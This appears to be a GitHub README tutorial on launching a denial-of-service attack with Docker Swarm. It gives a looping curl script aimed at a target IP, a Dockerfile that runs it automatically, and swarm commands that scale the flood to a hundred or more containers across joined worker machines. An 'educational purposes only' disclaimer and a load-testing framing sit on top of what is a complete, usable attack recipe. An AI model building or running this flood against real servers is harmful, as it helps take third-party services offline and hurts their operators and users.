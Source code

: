 # Docker-Swarm-DDOS
## How to create a Denial of Service Attack through Docker Swarm.
#### Quick Disclaimer: This information is for educational purposes only and should not be used with malicous intent. Also the following guide has been tested only for Mac and Ubuntu, minor differences might exist on other OS.

This repository will help you to create a DDOS attack on a server. This could be useful if working on a project and trying to test out what will happen if there is some traffic, heavy traffic or a full fleshed DDOS attack.

### List of Tasks

- [ ] Installing Docker
- [ ] Creating the Script
- [ ] Setting up Dockerfile
- [ ] Creating a Custom Docker Image
- [ ] Setting up Docker Swarm
- [ ] Creating and Scaling a Service


### Installing Docker
If you have this part already simply move on to the next section, otherwise here is a link that to get you started.

Please instiall the proper verison for your OS and then return back to this guide. :+1:

https://www.docker.com/community-edition

- [x] Installing Docker

### Creating the Script
Now that we have Docker installed and running lets get started with creating a directory.
It doesnt matter where this directory is, but to keep in simple for now I'll go with this

```
$ mkdir $HOME/DockerAttack
$ cd $HOME/DockerAttack
```
Following is done through iTerm or a Terminal
I personally use vim for this, but any way would really do.
```
$ vim curlAttack.sh
```
There's not much to the script, in fact its a simple looping curl, it looks something like this
```sh
#!/bin/bash
while true
do
#Please use 'man curl' to see what -vk is for, also -X command can be useful too.
curl -vk https:://<ip>
#sleep 5
done
exit 0
```
> I'd actually reccomend to first write a curl command that works for your server in a terminal, then to copy paste it into the script.

At this point you could test it out by adding execution permission and then running it.
```
$ chmod +x curlAttack.sh
$ ./curlAttack.sh
```

- [x] Creating the Script


### Setting up Dockerfile
Without switching to a different directory lets create our Dockerfile.

>$ vim Dockerfile
```
FROM tutum/curl
ADD curlAttack.sh /usr/local/bin/curlAttack.sh
CMD ["usr/local/bin/curlAttack.sh"]
```
These three lines are basically pulling from a docker image that has ability to use curl, adding our script to the image that comes from this Dockefile, then automatically running the script when a cointainer is made.

- [x] Setting up Dockerfile

### Creating a Custom Docker Image Through Dockerfile

Now that dockerfile is set up properly, without switching into a different directory run the following command.
```
  $ docker build -t <imageName>:dockerfile .
```
You'll then see that its pulling from tutum/curl first.

Check if it was succesfull by running
 ```
 $ docker images
 ```
You should then see both tutum/curl and your own image.
 
 - [x] Creating a Custom Docker Image
 
### Setting up Docker Swarm
 
We can start up with docker swarm with the following command.
```
$ docker swarm init
```
If at this point you believe your computer has enough recources to make how many copied you like skip to the next step.
Docker Swarm is also build in a way to distribute the workload between worker nodes. The docker swarm init command gives a join token which could be used on another device that has docker in order to have it join as a worker and share the workload.

```
$ docker swarm join --token <Token From Init Command>
```

Note that the service creating and scaling commands(below) need to be run on hte manager node. (The device where the swarm was initalized).

- [x] Setting up Docker Swarm
 
### Creating and Scaling a Service

So to start of here are useful commands to know, all of these start with: **docker service**

| Command   | Description |
| ------------- | ------------- |
|  create --name \<serviceName> --detach=false \<imageName>:dockerfile | Creates a service from the custom dockerfile image.  |
| scale \<serviceName>=\<#>  | Used to easily scale number of copies of the service.  |
| rm \<serviceName> | Ends service with the given name.  |
| ls | Lets you see running services and number of copies that are currently up. |

Here's an example that sets up the image, creates a service, scales it then ends it.
```
$ docker build -t <imageName>:dockerfile .  //[Only do this if you made changes to the Dockerfile]
$ docker service create --name <serviceName> --detach=false <imageName>:dockerfile
$ docker service ls   //[Can see 1/1 copy running]
$ docker service scale <servicename>=100
$ docker service ls   //[Doing this multiple times you can see the # of copies increasing]
$ docker service rm <servicename>
```

Also you if you'll be repeating these often, I'd reccomend adding these as aliases for these.

- [x] Creating and Scaling a Service


### This is the end of tutorial, hope you found it useful.

